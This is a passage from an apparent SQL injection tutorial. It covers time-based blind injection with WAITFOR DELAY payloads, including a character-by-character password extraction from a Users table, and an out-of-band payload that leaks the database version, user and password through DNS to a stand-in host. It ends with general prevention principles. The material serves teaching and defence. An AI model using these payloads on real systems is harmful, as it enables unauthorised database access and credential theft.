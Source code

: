 ```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

* The first of these inputs does not trigger a delay, because the condition 1=2 is false.
The second input triggers a delay of 10 seconds, because the condition 1=1 is true.
Using this technique, we can retrieve data by testing one character at a time:

```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

## Out-of-band SQLi
* Out-of-band SQL injection (OOB SQLi) is a type of SQL injection where the attacker does not receive a response from the attacked application on the same communication channel but instead is able to cause the application to send data to a remote endpoint that they control.

* Out-of-band SQL injection is only possible if the server that you are using has commands that trigger DNS or HTTP requests. However, that is the case with all popular SQL servers.

* Let’s say the attacker is able to execute the following SQL query in the target database:

```sql
SELECT load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.', (SELECT+password),'.',example.com\\test.txt'))
```

* This will cause the application to send a DNS request to the domain database_version.database_user.database_password.example.com, exposing sensitive data (database version, user name, and the user’s password) to the attacker.

# How to Prevent SQL Injections (SQLi)
* Preventing SQL Injection vulnerabilities is not easy. Specific prevention techniques depend on the subtype of SQLi vulnerability, on the SQL database engine, and on the programming language. However, there are certain general strategic principles that you should follow to keep your web application safe.

## Don’t trust any user input
* Treat all user input as untrusted. Any user input that is used in an SQL query introduces a risk of an SQL Injection. Treat input from authenticated and/or internal users the same way that you treat public input.

## Use whitelists, not blacklists
* Don’t filter user input based on blacklists. A clever attacker will almost always find a way to circumvent your blacklist. If possible, verify and filter user input using strict whitelists only.

## Adopt the latest technologies
* Older web development technologies don’t have SQLi protection. Use the latest version of the development environment and language and the latest technologies associated with that environment/language. For example, in PHP use PDO instead of MySQLi.

